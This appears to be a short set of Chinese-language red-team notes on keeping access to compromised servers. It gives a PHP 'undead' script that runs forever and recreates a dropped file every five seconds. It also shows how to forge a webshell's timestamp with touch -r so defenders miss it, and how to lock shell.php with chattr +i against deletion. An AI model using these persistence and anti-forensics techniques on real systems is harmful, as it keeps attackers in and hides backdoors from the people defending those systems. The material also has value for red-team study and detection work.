 # window权限维持

## 1. php不死马权限维持

~~~php
<?php
ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去
$interval = 5; // 每隔*秒运行
do {
    $filename = 'test.php';
    if(file_exists($filename)) {
    	echo "xxx";
	}
    else {
        $file = fopen("test.php", "w");
        $txt = "<?php phpinfo();?>\n";
        fwrite($file, $txt);
        fclose($file);
    }
	sleep($interval);
} while (true);
?>
~~~

## 2. 映像劫持技术





# Linux权限维持

## 1. 修改文件/终端属性

### 1.1 文件创建时间

如果蓝队是根据文件修改时间来判断文件是否为后门，如参考index.php的时间再来看shell.php的时间就可以判断shell.php的生成时间有问题

解决办法：

> touch -r index.php shell.php

touch -r 命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。若文件不存在，系统会建立一个新的文件。

### 1.2 文件锁定

在Linux中，使用chattr命令来防止root和其他管理用户误删除和修改重要文件及目录，此权限用ls -l是查看不出来的，从而达到隐藏权限的目的。

> chattr +i shell.php  #锁定文件
>
> rm -rf shell.php #提示禁止删除
>
> lsattr	shell.php	#属性查看
>
> chattr	-i	shell.php	#解除锁定
>
> rm -rf shell.php 	#彻底删除文件
